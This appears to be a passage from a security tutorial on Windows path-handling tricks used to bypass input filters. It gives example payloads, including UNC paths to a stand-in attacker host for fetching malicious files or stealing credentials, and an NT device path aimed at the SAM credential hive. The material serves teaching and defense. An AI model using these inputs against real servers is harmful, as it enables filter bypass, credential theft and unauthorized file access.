 
### 🔹 Windows-Specific Tricks

#### **Shell Behavior:**

In Windows, if you append extra characters like:

* `<`, `>`, or even `"` at the end of the path
* Add extra `./` or `.\`
* Use `../` for non-existent folders

Examples:

```plaintext
file.txt...  
file.txt     (with trailing spaces)  
././file.txt  
folder/../file.txt  
```

Windows might ignore these and still access the file, helping attackers bypass input filters.

---

#### **Windows UNC Paths**

These are used to access network shares:

```plaintext
\\attacker.com\share\malicious.exe  
\\?\192.168.1.10\payloads\file.php  
```

Attackers can use these to:

* Steal **credentials** from the server
* Evade filters
* Access internal network shares the attacker normally can’t reach

---

#### **Windows NT Device Namespace**

These are low-level device paths that allow access to raw disk volumes:

```plaintext
\\.\GLOBALROOT\Device\HarddiskVolume1\Windows\System32\config\SAM  
\\.\CdRom0\autorun.inf  
```

